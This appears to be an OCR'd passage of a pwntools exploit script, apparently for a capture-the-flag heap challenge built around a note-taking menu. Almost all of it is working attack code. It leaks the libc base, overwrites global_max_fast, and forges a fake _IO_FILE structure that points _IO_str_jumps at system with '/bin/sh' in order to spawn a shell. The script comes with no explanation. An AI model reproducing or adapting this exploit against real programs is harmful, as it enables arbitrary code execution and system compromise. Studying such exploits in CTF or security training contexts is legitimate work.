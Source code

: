 ```python
    sla("Pls Input your note size",size)
    p.sendlineafter("Input your note",con)

def dele(idx):
    sla("4.exit",2)
    sla("Input id:",idx)

def login(name,user):
    sla("4.exit",3)
    p.sendafter("Please input your name",name)
    sla("1.admin",user)

# dbg()
add(0x418,'e4l4')
add(0x1430,'e4l4')

dele(0)
add(0x418,'')
p.recvuntil("your note is")
libc_base = uu64()-0x3ebca0
lg("libc_base")

# p/x &global_max_fast
sh_addr = libc_base+libc.search('/bin/sh').next()
system_addr = libc_base + libc.sym['system']
Global_max_fast = libc_base + 0x3ed940
IO_list_all = libc_base + libc.sym['_IO_list_all']
IO_str_jumps = libc_base + 0x3e8360
login(p64(system_addr) + p64(Global_max_fast-8),1)

dele(0)
add(0x418,'a'*0x410+p64(0))

# dbg()
dele(1)

# 0x7fa0d6e7d660-0x7fa0d6e7cc50
def FILE(binsh,system,IO_str_jumps):
    fake_IO_FILE  = p64(0xfbad1800) + p64(0)*3
    fake_IO_FILE += p64(0) + p64(0xffffffffffffffff) # fp->_IO_write_ptr > fp->_IO_write_base; pos = fp->_IO_write_ptr - fp->_IO_write_base >= (_IO_size_t) (_IO_blen (fp) + flush_only)
    fake_IO_FILE += p64(0)*2 + p64((binsh-100)//2)
    fake_IO_FILE = fake_IO_FILE.ljust(0xC0,'\x00')
    fake_IO_FILE += p64(0xFFFFFFFFFFFFFFFF) + p64(0)*2  # _mode <= 0
    fake_IO_FILE += p64(IO_str_jumps)
    fake_IO_FILE += p64(system) # 0xe0 _s._allocate_buffer
    return fake_IO_FILE

fake_IO = FILE(sh_addr,system_addr,IO_str_jumps)
add(0x1430,fake_IO[0x10:])
dele(1)

sla('exit','4')

p.interactive()
```

